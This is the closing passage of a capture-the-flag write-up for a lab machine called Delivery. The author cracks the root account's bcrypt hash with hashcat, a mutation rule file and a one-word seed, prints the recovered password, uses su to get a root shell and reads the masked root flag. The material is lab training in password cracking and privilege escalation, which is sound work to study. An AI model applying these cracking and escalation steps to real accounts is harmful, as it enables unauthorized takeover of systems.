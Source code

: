 Nice, we got the password hash of `root`! Now we just need to crack it. `root`'s message in `Internal`'s chat said something using a variant of `PleaseSubscribe!`, hence we will need to perform some form of mutation to the password. I made use of a `hashcat` [rule file](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule) that I found online to crack the password. It took a while, but it was able to crack the hash.

```bash
$ echo "\$2a\$10\$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO" > hash.txt
$ echo "PleaseSubscribe!" > wordlist.txt
$ hashcat -m 3200 -a 0 -r OneRuleToRuleThemAll.rule hash.txt wordlist.txt
...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...
```

If we `su` to `root` with the password, we see that we have a shell as `root`!

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su
Password: PleaseSubscribe!21
root@Delivery:/opt/mattermost/config# id
uid=0(root) gid=0(root) groups=0(root)
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@Delivery:/opt/mattermost/config# cat /root/root.txt
9b69XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !